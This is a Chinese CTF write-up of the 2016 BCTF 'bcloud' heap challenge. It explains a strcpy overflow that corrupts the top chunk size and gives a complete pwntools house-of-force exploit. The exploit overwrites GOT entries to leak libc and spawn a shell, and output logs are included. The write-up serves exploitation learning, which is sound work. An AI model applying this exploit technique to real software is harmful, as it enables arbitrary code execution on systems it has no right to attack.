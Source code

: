 ```yaml
---
title: 2016 BCTF bcloud
date: 2017-03-18 13:38:12
tags:
- house-of-force
- ctf
categories:
- ctf_practice
---
```


## Challenge
好吧，这题不是很难，但是前面没怎么发现该怎么利用。原因是我做题就直奔中心部分，前面的初始化函数往往没怎么认真看。
漏洞函数为sub_804884E()，可以造成house of force。我前面刚好记录了[house of force](http://w0lfzhang.me/2016/10/15/house-of-force/)的利用过程，思路都差不多，就当是巩固练习吧。
其实漏洞都是由下面这个函数造成的：
<!-- more -->
```c
int __cdecl input(int a1, int a2, char a3)
{
  char buf; // [sp+1Bh] [bp-Dh]@2
  int i; // [sp+1Ch] [bp-Ch]@1

  for ( i = 0; i < a2; ++i )
  {
    if ( read(0, &buf, 1u) <= 0 )
      exit(-1);
    if ( buf == a3 )
      break;
    *(_BYTE *)(a1 + i) = buf;
  }
  *(_BYTE *)(i + a1) = 0;
  return i;
}
```
在input name的函数中能泄露heap的地址。然后下面的函数又给house of force“埋下了伏笔”。。。
```c
int sub_804884E()
{
  char org; // [sp+1Ch] [bp-9Ch]@1
  char *org_p; // [sp+5Ch] [bp-5Ch]@1
  int host; // [sp+60h] [bp-58h]@1
  char *host_p; // [sp+A4h] [bp-14h]@1
  int v5; // [sp+ACh] [bp-Ch]@1

  v5 = *MK_FP(__GS__, 20);
  memset(&org, 0, 0x90u);
  puts("Org:");
  input((int)&org, 64, 10);
  puts("Host:");
  input((int)&host, 64, 10);
  host_p = (char *)malloc(0x40u);
  org_p = (char *)malloc(0x40u);
  ::org = (int)org_p;   /*op 1*/
  ::host = (int)host_p;
  strcpy(host_p, (const char *)&host);
  strcpy(org_p, &org);
  puts("OKay! Enjoy:)");
  return *MK_FP(__GS__, 20) ^ v5;
}


```
前面四个变量的位置如果不仔细看的话，后面看主体部分的时候真看不出有什么漏洞了。
由于缓冲区和两个指针都是相邻的，而后面的赋值操作op 1把缓冲区后面的\x00给覆盖了，所以strcpy(org_p, &org)会顺带把org_p和host缓冲区也给拷贝到堆上了。调试时发现正好可以覆盖到top chunk的size字段。
```shell
gdb-peda$ x/72wx 0x084d9000
0x84d9000:	0x00000000	0x00000049	0x61616161	0x61616161
0x84d9010:	0x61616161	0x61616161	0x61616161	0x61616161
0x84d9020:	0x61616161	0x61616161	0x61616161	0x61616161
0x84d9030:	0x61616161	0x61616161	0x61616161	0x61616161
0x84d9040:	0x61616161	0x61616161	0x084d9008	0x00000049
0x84d9050:	0xffffffff	0x00000000	0x00000000	0x00000000
0x84d9060:	0x00000000	0x00000000	0x00000000	0x00000000
0x84d9070:	0x00000000	0x00000000	0x00000000	0x00000000
0x84d9080:	0x00000000	0x00000000	0x00000000	0x00000000
0x84d9090:	0x00000000	0x00000049	0x6f6f6f6f	0x6f6f6f6f
0x84d90a0:	0x6f6f6f6f	0x6f6f6f6f	0x6f6f6f6f	0x6f6f6f6f
0x84d90b0:	0x6f6f6f6f	0x6f6f6f6f	0x6f6f6f6f	0x6f6f6f6f
0x84d90c0:	0x6f6f6f6f	0x6f6f6f6f	0x6f6f6f6f	0x6f6f6f6f
0x84d90d0:	0x6f6f6f6f	0x6f6f6f6f	0x084d9098	0xffffffff <---
0x84d90e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x84d90f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x84d9100:	0x00000000	0x00000000	0x00000000	0x00000000
0x84d9110:	0x00000000	0x00000000	0x00000000	0x00000000
```
top chunk的地址为0x84d90d8，可以看到它的size字段已经被覆盖为0xffffffff。而主程序中有malloc(n+4)，这样我们很容易进行house of force攻击。

## Exploit
```python
from pwn import *

debug = 1
if debug:
  #context.log_level = "DEBUG"
  p = process('./bcloud')
else:
  p = remote()

def new(len, data):
  p.recvuntil(">>\n")
  p.sendline('1')
  p.recvuntil("Input the length of the note content:\n")
  r = str(len)
  p.sendline(r)
  p.recvuntil("Input the content:\n")
  p.send(data)

def edit(index, data):
  p.recvuntil(">>\n")
  p.sendline('3')
  p.recvuntil("Input the id:\n")
  p.sendline(str(index))
  p.recvuntil("Input the new content:\n")
  p.send(data)

def delete(index):
  p.recvuntil(">>\n")
  p.sendline('4')
  p.recvuntil("Input the id:\n")
  p.sendline(str(index))
  
p.recvuntil("Input your name:\n")
p.send('a'*64)
r = p.recvline()
heap_addr = u32(r[68:72])
base_heap = heap_addr - 0x8
heap_top = base_heap + 0xD8 #216
print "base_heap: " + hex(base_heap)

p.recvuntil("Org:\n")
p.send('o'*64)
p.recvuntil("Host:\n")
p.sendline("\xff\xff\xff\xff")
#raw_input("init?go")

bss_len_addr = 0x0804B0a0
free_got = 0x0804B014
printf_plt = 0x080484D0
atoi_got = 0x0804B03C
read_got = 0x0804B00C

n = bss_len_addr - 8 - heap_top - 8  #pre_size + size
print "size: " + hex(int(n))

new(n, "\n")
new(160, "/bin/sh\x00" + "\n")
#raw_input()
#edit(1, 'aaaaaaaa'+"\n")
#raw_input("go")

payload = p32(4)   #id0's length
payload += p32(4)   #id1's length
payload += p32(4)   #id2's length
payload += 'a' * 0x74
payload += p32(free_got)   #id0's pointer    change it carefully!!
payload += p32(read_got)   #id1's pointer
payload += p32(atoi_got)   #id2's pointer

edit(1, payload + "\n")
edit( 0, p32(printf_plt) )  #free-got-->printf_plt

delete(1)  #free(id0's pointer)  -->printf(read_got)
read_addr = u32(p.recv(4))
print "read_addr: " + hex(read_addr)
#raw_input("g0")

libc_base = read_addr - 0xdaf60
print "libc_base: " + hex(libc_base)
system_addr = libc_base + 0x40310
print "system_addr: " + hex(system_addr)

edit(2, p32(system_addr))

p.recvuntil(">>\n")
p.sendline('/bin/sh\x00')

p.interactive()

```
因为house of force攻击可以控制任何内存区域(用户态可写部分)，所以关键就是控制哪了。开始会想着直接来控制got表，但是一个问题是libc的泄露。show函数没有输出内容，只是输出一句简单的话。所以直接写got表示没用的。
我们可以控制bss段的两个数组内存区域，一个为存储长度的数组，另一个为存储堆指针的数组。然后我们结合edit和delete功能泄露libc的地址，并且来写got表。

我们可以先把id0的堆指针改为free_got的地址，然后edit，将free_got改为print_plt
的地址，并且再把其中的一个堆地址改为read_got。然后delete，就相当于printf(read_got)，这样就泄露了libc的地址。然后在以同样方式把atoi_got改为system的地址，这样再选择时输入/bin/sh就能得到shell了。

```shell
wolzhang@wolzhang666:~/Desktop$ python bcloud.py 
[+] Starting local process './bcloud': Done
base_heap: 0x8b43000
size: -0xaf8048
read_addr: 0xf763af60
libc_base: 0xf7560000
system_addr: 0xf75a0310
[*] Switching to interactive mode
$ id
uid=1000(wolzhang) gid=1000(wolzhang) groups=1000(wolzhang),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```


